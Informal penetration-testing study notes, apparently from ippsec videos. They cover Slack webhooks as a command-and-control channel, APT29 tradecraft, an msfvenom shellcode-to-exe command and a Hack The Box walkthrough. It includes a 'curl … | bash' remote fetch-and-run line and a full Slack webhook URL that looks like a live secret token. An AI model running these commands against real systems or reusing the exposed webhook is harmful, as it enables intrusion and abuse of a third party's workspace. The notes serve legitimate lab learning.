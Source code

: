 # looking at ippsec techniques

# setting slack web hooks and C2
make the channel private
webhook integrations
https://hooks.slack.com/services/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

$body = COnvertTo-Json @{
    pretext = "Automated"
    text = "Hi there"
}
Invoke-RestMethod https://hooks.slack.com/services/
B0559PG99FC/Ej96lpmHngg1OV7htEKcfk3n -Method Post -Body $body -ContentType "application/json"

![](message_passed.png)

### using this as a C2

https://3xpl01tc0d3r.blogspot.com/2018/06/how-to-use-slack-as-c2-sever.html

using a slackshell


# analysing APT 29

https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/

APT 29 uses lnk files in a zip format

ippsec.rocks

uses dll injection into microsoft updater

we can create one by cat shellcode.bin | msfvenom -p - -f exe -a x64 --platform win -o pleasesubscribe.exe

we can open this up in x64dbg
needs to be done in x64dbg file

# oscp tj null list

bashed

`nmap -sC -sV -oA nmap/initial 10.10.10.65`

based on httpd version you can decide on th elinux kernel

you can execute the file by host ing it using smiple HHTPserver and then saying curl http://10.10.10.1/new | bash

LInenum.sh


